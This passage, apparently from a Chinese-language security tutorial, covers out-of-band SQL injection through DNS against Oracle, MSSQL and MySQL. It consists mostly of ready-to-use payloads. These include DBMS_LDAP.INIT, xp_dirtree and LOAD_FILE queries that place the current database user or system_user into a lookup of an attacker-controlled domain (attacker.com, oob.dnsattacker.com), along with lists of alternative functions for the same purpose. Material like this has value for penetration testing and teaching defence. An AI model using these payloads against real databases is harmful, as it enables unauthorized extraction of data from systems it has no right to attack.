 **类似地，我们可以使用以下载荷。**  
  
**受害者**  

```
SELECT DBMS_LDAP.INIT((SELECT user FROM dual)||'.attacker.com',80) FROM dual;      /* 提取 Oracle 数据库中的当前用户 */
```

  
如果您使用的是 Oracle 10G 或更低版本，创建 DNS 查询的一些替代方法是：UTL_INADDR.GET_HOST_ADDRESS、UTL_HTTP.REQUEST、HTTP_URITYPE.GETCLOB、DBMS_LDAP.INIT 和 UTL_TCP。  
##### MSSQL  
###### 检测  
  
**受害者**  

```
EXEC master..xp_dirtree '\\oob.dnsattacker.com \' –
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoJzcibycvgGsOh3SP48e8LVRVa2z0zhsv0Yeu2GYtgLBAk83QdSsuibpw/640?wx_fmt=png&from=appmsg "")  
###### 漏洞利用/数据窃取  
  
**受害者**  

```
DECLARE @data varchar(1024);
SELECT @data = (SELECT system_user);
EXEC('master..xp_dirtree &#34;\\'+@data+'.oob.dnsattacker.com\foo$&#34;');
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpo6UibAaHnu4XMG1pqrNMp8SKdLvYtzQ64m75TWSpz2WHiaiac5yJb1NickA/640?wx_fmt=png&from=appmsg "")  
  
**限制：**  
为了使用这种技术，数据库用户应该具有 sysadmin 权限。  
  
类似地，创建 DNS 查询的其他方法：xp_fileexists、xp_subdirs、xp_getfiledetails、sp_add_jobstep  
##### MYSQL  
###### 检测  
  
**受害者：**  

```
SELECT LOAD_FILE(CONCAT('\\\\', 'oob.dnsattacker.com\\test.txt'));
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpof9Mb6NEwa8ricuxZQwtgtuWtJjB3In2qUZt21GpGfiahzxvmEtRjlJRw/640?wx_fmt=png&from=appmsg "")  
###### 漏洞利用/数据窃取  
  
**受害者**  

```
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT HEX(CONCAT(user(),&#34;\n&#34;))), '.oob.dnsattacker.com\\test.txt'));
```
